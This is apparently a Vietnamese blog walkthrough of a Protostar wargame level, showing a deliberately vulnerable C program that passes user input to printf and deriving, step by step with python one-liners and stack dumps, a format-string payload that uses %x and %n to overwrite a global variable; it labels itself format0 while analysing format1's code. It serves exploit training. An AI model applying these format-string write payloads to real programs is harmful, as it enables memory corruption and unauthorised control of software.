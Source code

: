 ```yaml
---
layout: post
title: format0
---
```


Trong bài này, chúng ta sẽ dùng `printf` để exploit chương trình.
Mặc dù `printf` chỉ là hàm để in ra màn hình, nó vẫn có khả năng đọc và lưu giá trị vào bộ nhớ thông qua formatted string có chứa `%n`.

Sau đây là source code và asm code của chương trình format0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
```asm
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x18
0x080483fa <vuln+6>:    mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:    mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:   call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:   mov    eax,ds:0x8049638
0x0804840a <vuln+22>:   test   eax,eax
0x0804840c <vuln+24>:   je     0x804841a <vuln+38>
0x0804840e <vuln+26>:   mov    DWORD PTR [esp],0x8048500
0x08048415 <vuln+33>:   call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:   leave
0x0804841b <vuln+39>:   ret
0x0804841c <main+0>:    push   ebp
0x0804841d <main+1>:    mov    ebp,esp
0x0804841f <main+3>:    and    esp,0xfffffff0
0x08048422 <main+6>:    sub    esp,0x10
0x08048425 <main+9>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048428 <main+12>:   add    eax,0x4
0x0804842b <main+15>:   mov    eax,DWORD PTR [eax]
0x0804842d <main+17>:   mov    DWORD PTR [esp],eax
0x08048430 <main+20>:   call   0x80483f4 <vuln>
0x08048435 <main+25>:   leave
0x08048436 <main+26>:   ret
```

Mục tiêu của bài này là dùng `printf` để thay đổi giá trị của một biến lưu ở bất kỳ đâu, không chỉ giới hạn trong stack.
Từ source code ta thấy rằng hàm `printf` dễ dàng bị sử dụng sai vì chỉ có một tham số duy nhất.
Bằng cách yêu cầu thêm tham số, cụ thể là `%n` như đã đề cập, chương trình sẽ được exploit.
Khi phải xử lý nhiều tham số, `printf` sẽ đọc giá trị từ lưu trên stack, lần lượt từ `esp`.
Đối với `%n`, `printf` sẽ sử dụng giá trị trên stack làm pointer để lưu giá trị mới vào đó.
Như vậy, nếu muốn thay đổi biến `target`, trước tiên cần tìm ra địa chỉ lưu biến này.
Để tìm được địa chỉ, bạn có thể dùng objdump như gợi ý hoặc đọc từ asm code của chương trình.

```bash
objdump -t /opt/protostar/bin/format1 | grep target
```

Kết quả cho thấy `target` được lưu tại `0x08049638`.
Như vậy, formatted string sẽ phải có 4 byte địa chỉ này.
Tiếp theo, chúng ta sẽ cần biết khoảng cách giữa `esp` khi hàm `printf` được gọi và địa chỉ của formatted string.
Cách formatted string được lưu vào stack như sau:
1. Bắt đầu từ `ebp`, lưu theo chiều push stack, nghĩa là giá trị cuối cùng, ký tự null-terminated lưu tại `ebp - 0x1`. Giá trị đầu tiên cũng là địa chỉ sẽ lưu tại `ebp - độ dài chuỗi`
2. Ta sẽ có 1 khoảng cách cố định từ địa chỉ formatted string đến `esp` hiện tại, kèm theo padding của chương trình (để làm tròn `esp` về dạng `0xyyyyyyy0`).

Để biết được khoảng cách này, chúng ta có thể sử dụng phương pháp thử thay thế liên tiếp các giá trị từ stack vào formatted string.
Điều này tương tự với việc sử dụng rất nhiều tham số cho hàm `printf`.
Sau đây là một ví dụ.

```bash
python -c "print 'AAAA' + '%x.' * 200"
```

Đoạn formatted string này cho phép hàm `printf` đọc 200 dword với địa chỉ bắt đầu `esp + 4` (không kể địa chỉ của formatted string này tại `esp`).
Sau khi đọc và in ra chuỗi, chúng ta sẽ tìm được vị trí mà formatted string này được lưu, bằng cách tìm vị trí mà giá trị `0x41414141` (tương đương với chuỗi `AAAA`) trong chuỗi in ra.
Dưới đây là ví dụ về chuỗi in ra. Đoạn giá trị cần tìm được <span style="color:aqua">highlight</span>.

```bash
AAAA804960c.bffff568.8048469.b7fd8304.b7fd7ff4.bffff568.8048435.bffff732.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff5e8.b7eadc76.2.bffff614.bffff620.b7fe1848.bffff5d0.ffffffff.b7ffeff4.804824d.1.bffff5d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff5e8.b9394216.936bd406.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff614.8048450.8048440.b7ff1040.bffff60c.b7fff8f8.2.bffff72a.bffff732.0.bffff98f.bffff99d.bffff9a8.bffff9c8.bffff9db.bffff9e5.bffffed5.bfffff22.bfffff36.bfffff45.bfffff56.bfffff5e.bfffff6e.bfffff7b.bfffffad.bfffffc4.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff70b.1f.bfffffe1.f.bffff71b.0.0.0.8a000000.d18b3605.c6b4a369.b1fa337a.6931d8ec.363836.0.0.6f660000.74616d72.<span style="color:aqua">4141</span>0031.7825<span style="color:aqua">4141</span>.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

Vị trí tìm được tương đương với `esp + 0x202`. Khoảng cách này là 514 byte.
Chúng ta cũng nhận thấy sẽ có 2 byte lẻ do hiệu ứng của padding, khiến cho chuỗi bắt đầu `AAAA` bị tách ra làm 2 như đã highlight.
Để tránh bị mis-aligned, chúng ta sẽ thêm 2 byte vào formatted string.
Độ dài mới sẽ là 4 byte `AAAA`, 3 byte `%x.` lặp lại 200 lần, 2 byte padding, và 1 byte null-terminated. Tổng là 607 byte.

```bash
python -c "print 'AAAA' + '%x.' * 200 + 'aa'"
```
```bash
AAAA804960c.bffff568.8048469.b7fd8304.b7fd7ff4.bffff568.8048435.bffff730.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff5e8.b7eadc76.2.bffff614.bffff620.b7fe1848.bffff5d0.ffffffff.b7ffeff4.804824d.1.bffff5d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff5e8.530c9d5c.795e0b4c.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff614.8048450.8048440.b7ff1040.bffff60c.b7fff8f8.2.bffff728.bffff730.0.bffff98f.bffff99d.bffff9a8.bffff9c8.bffff9db.bffff9e5.bffffed5.bfffff22.bfffff36.bfffff45.bfffff56.bfffff5e.bfffff6e.bfffff7b.bfffffad.bfffffc4.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff70b.1f.bfffffe1.f.bffff71b.0.0.0.ab000000.3e356350.d411d673.672da4f7.69e29a20.363836.0.0.6d726f66.317461.<span style="color:aqua">41414141</span>.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

Với formatted string mới này, các byte đã về đúng vị trí.
Tiếp theo, chúng ta sẽ điều chỉnh số lần đọc từ stack, để đến điều chỉnh `esp` về đúng vị trị trên stack chứa địa chỉ của `target`, cụ thể là về đầu của formatted string.
Có thể nhận thấy, nếu đọc 0 dword, `esp` sẽ dịch 4 byte.
Tương tự, nếu đọc 1 dword, `esp` sẽ dịch 8 byte.
Tiếp tục như vậy, nếu đọc 127 dword, `esp` sẽ dịch ngay tại địa chỉ của formatted string (mà trong ví dị này bắt đầu bằng chuỗi `AAAA` hay `0x41414141`).

Theo như phân tích, chúng ta sẽ giảm số lần lặp lại của `%x.` đi còn 127 lần, và tính lại byte padding.
Cụ thể, nếu không có byte padding thì tổng độ dài sẽ là 4 + 3 * 127 + 1 = 386. Chênh lêch so với trước đây là 221.
Số chênh lệch này chia 4 dư 1. Cho nên ta sẽ thêm 1 byte padding vào độ dài formatted string.
Cuối cùng, ta sẽ đổi chuổi thành.

```bash
python -c "print 'AAAA' + '%x.' * 127 + 'a'"
```
```bash
AAAA804960c.bffff648.8048469.b7fd8304.b7fd7ff4.bffff648.8048435.bffff80c.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6c8.b7eadc76.2.bffff6f4.bffff700.b7fe1848.bffff6b0.ffffffff.b7ffeff4.804824d.1.bffff6b0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6c8.3ba998e9.11fd4ef9.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6f4.8048450.8048440.b7ff1040.bffff6ec.b7fff8f8.2.bffff804.bffff80c.0.bffff98f.bffff99d.bffff9a8.bffff9c8.bffff9db.bffff9e5.bffffed5.bfffff22.bfffff36.bfffff45.bfffff56.bfffff5e.bfffff6e.bfffff7b.bfffffad.bfffffc4.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7eb.1f.bfffffe1.f.bffff7fb.0.0.0.4b000000.9c80dc29.b2cb6222.7ef80e2c.696901de.363836.0.6d726f66.317461.41414141.a
```

Tuy nhiên khi kiểm tra chuỗi mới này, `0x41414141` vẫn xuất hiện.
Hiện tượng này là do sau khi thay đổi độ dài chuỗi, padding do điều chỉnh `esp` bằng lệnh `esp & 0xfffffff0` đã làm mất đi 8 byte padding.
Như vậy chúng ta sẽ phải điều chỉnh thêm 1 lượt nữa bằng cách giảm số lần lặp `%x.` đi thêm 1 lần.
Tính lại độ dài chuỗi, ta được tổng là 4 + 3 * 126 + 1 = 383, chênh lệch là 224 byte và cần thêm 0 byte padding.

```bash
python -c "print 'AAAA' + '%x.' * 126"
```
```bash
AAAA804960c.bffff648.8048469.b7fd8304.b7fd7ff4.bffff648.8048435.bffff810.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6c8.b7eadc76.2.bffff6f4.bffff700.b7fe1848.bffff6b0.ffffffff.b7ffeff4.804824d.1.bffff6b0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6c8.663cd21e.4c68040e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6f4.8048450.8048440.b7ff1040.bffff6ec.b7fff8f8.2.bffff808.bffff810.0.bffff98f.bffff99d.bffff9a8.bffff9c8.bffff9db.bffff9e5.bffffed5.bfffff22.bfffff36.bfffff45.bfffff56.bfffff5e.bfffff6e.bfffff7b.bfffffad.bfffffc4.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7eb.1f.bfffffe1.f.bffff7fb.0.0.0.9c000000.395f7251.2db0cce8.81033fbf.69335b0b.363836.0.0.6d726f66.
```

Chuỗi `0x41414141` đã không xuất hiện. Có vẻ như chúng ta đã chỉnh chính xác vị trí `esp`.
Để kiểm tra lại đáp án cuối cùng, thay `AAAA` bằng địa chỉ của `target` là `0x08049638` và thêm `%n` vào cuối để bắt đầu quá trình ghi.
Việc thay thế 4 byte đầu bằng 4 byte khác không làm ảnh hưởng đến padding.
Tuy nhiên, việc thêm 2 byte `%n` yêu cầu phải thêm 2 byte padding nữa để đảm bảo chênh lệch chia hết cho 4.
Kết quả ta được.

```bash
python -c "print '\x38\x96\x04\x08' + '%x.' * 126 + '%n' + 'a\n'"
```
```bash
8804960c.bffff648.8048469.b7fd8304.b7fd7ff4.bffff648.8048435.bffff80c.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6c8.b7eadc76.2.bffff6f4.bffff700.b7fe1848.bffff6b0.ffffffff.b7ffeff4.804824d.1.bffff6b0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6c8.97f7272f.bda3f13f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6f4.8048450.8048440.b7ff1040.bffff6ec.b7fff8f8.2.bffff804.bffff80c.0.bffff98f.bffff99d.bffff9a8.bffff9c8.bffff9db.bffff9e5.bffffed5.bfffff22.bfffff36.bfffff45.bfffff56.bfffff5e.bfffff6e.bfffff7b.bfffffad.bfffffc4.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7eb.1f.bfffffe1.f.bffff7fb.0.0.0.a7000000.c336e748.2128340d.193064ab.69d4c2b3.363836.0.6d726f66.317461.aayou have modified the target :)
```

Mục tiêu đã hoàn thành!

Các bạn có thể tham khảo các đáp án khác trong phần cuối bài. Lưu ý, chạy chương trình trong gdb sẽ cần đáp án khác với chạy trực tiếp, do khoảng cách giữa `esp` và địa chỉ của formatted string khác nhau.

## Ref
```bash
user@protostar:~$ format0 $(python -c "print '%064d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```
